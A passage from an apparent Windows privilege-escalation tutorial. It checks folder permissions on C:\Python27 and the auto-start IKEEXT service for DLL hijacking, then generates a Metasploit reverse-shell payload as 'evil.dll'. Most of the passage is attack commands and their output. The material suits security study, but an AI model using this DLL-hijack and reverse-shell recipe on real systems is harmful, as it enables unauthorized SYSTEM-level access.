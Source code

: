     C:Usersuser1Desktop> cacls "C:Python27"

    C:Python27 BUILTINAdministrators:(ID)F
                BUILTINAdministrators:(OI)(CI)(IO)(ID)F
                NT AUTHORITYSYSTEM:(ID)F
                NT AUTHORITYSYSTEM:(OI)(CI)(IO)(ID)F
                BUILTINUsers:(OI)(CI)(ID)R
                NT AUTHORITYAuthenticated Users:(ID)C
                NT AUTHORITYAuthenticated Users:(OI)(CI)(IO)(ID)C

    **# Before we go over to action we need to check the status of the IKEEXT service. In this case we can see
    it is set to "AUTO_START" so it will launch on boot!**

    C:Usersuser1Desktop> sc qc IKEEXT

    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: IKEEXT
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:Windowssystem32svchost.exe -k netsvcs
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : IKE and AuthIP IPsec Keying Modules
            DEPENDENCIES       : BFE
            SERVICE_START_NAME : LocalSystem

Now we know the necessary conditions are met we can generate a malicious DLL and pop a shell!

    root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O

           Name: Windows Command Shell, Reverse TCP Inline
         Module: payload/windows/shell_reverse_tcp
       Platform: Windows
           Arch: x86
    Needs Admin: No
     Total size: 314
           Rank: Normal

    Provided by:
      vlad902 <vlad902@gmail.com>
      sf <stephen_fewer@harmonysecurity.com>

    Basic options:
    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique: seh, thread, process, none
    LHOST     127.0.0.1        yes       The listen address
    LPORT     9988             yes       The listen port

    Description:
      Connect back to attacker and spawn a command shell

    root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D >
    /root/Desktop/evil.dll
